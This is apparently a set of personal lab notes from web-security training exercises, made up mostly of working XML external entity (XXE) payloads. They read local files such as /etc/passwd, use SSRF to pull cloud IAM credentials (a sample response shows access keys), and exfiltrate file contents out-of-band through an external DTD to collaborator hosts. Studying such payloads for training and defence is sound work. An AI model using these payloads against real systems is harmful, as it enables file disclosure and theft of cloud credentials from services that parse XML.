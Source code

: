# XML external entity (XXE) injection

## Exploiting XXE using external entities to retrieve files
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Response:
```
HTTP/1.1 400 Bad Request
Content-Type: application/json
Connection: close
Content-Length: 546

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2019-12-04T10:39:48.174417Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "D7yHyaS5hANcoG9TRauJ",
  "SecretAccessKey" : "sjh5r5gtjQve7lX8O54ot3MdPlumGIIjiMseJ0C7",
  "Token" : "E6wskTuxF97EZqvoUbf9MiJigRSLPFzZIdIGXcE42TvUcNbDoPOWS4hORxQyw6AbJHVc5oKKuzA7jZqs4RBUH82sPaSbWAC0irnK38e7HPGrEa8LtXtPGhEbYn162TfasBvs1H7wOrDuV1iYykMb0vZEh0Oe6aqk0u4kbc2XmDRdUUmknShBqq4AVttL69qtTjsRQ4gzcbgMOC5rhDVHx01bTd9dHrt1XEAVxzBJY3Stj40s0nkAOyIvWCoKF68T",
  "Expiration" : "2025-12-02T10:39:48.174417Z"
}"
```

### Exploiting XInclude to retrieve files
Body is not XML itself but one of values is injected into XML context.. (for example SOAP)
```
productId=<foo+xmlns%3axi%3d"http%3a//www.w3.org/2001/XInclude"><xi%3ainclude+parse%3d"text"+href%3d"file%3a///etc/passwd"/></foo>&storeId=1
```

### Exploiting XXE via image file upload
SVG file
```
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text>
</svg> 
```

Read value from avatar image

## Blind XXE vulnerabilities

### Blind XXE with out-of-band interaction
```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Blind XXE with out-of-band interaction via XML parameter entities
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://burpcollaborator.net"> %xxe; ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

### Exploiting blind XXE to exfiltrate data using a malicious external DTD
TODO: Burp Suite Professional

Exploit hosted at https://ac951f351fa00e4680194cf5014e0008.web-security-academy.net/exploit
```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/?x=%file;'>">
%eval;
%exfiltrate; 
```

Modified HTTP request body
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ac951f351fa00e4680194cf5014e0008.web-security-academy.net/exploit"> %xxe;]>
```

### Exploiting blind XXE to retrieve data via error messages
Exploit hosted at https://ac381fd11f83c251800a4f4901dc00aa.web-security-academy.net/
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Modified HTTP request body
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://ac381fd11f83c251800a4f4901dc00aa.web-security-academy.net/exploit"> %xxe;]>
```

### Exploiting XXE to retrieve data by repurposing a local DTD
Verify the file exists
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

Modified HTTP request body
```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```
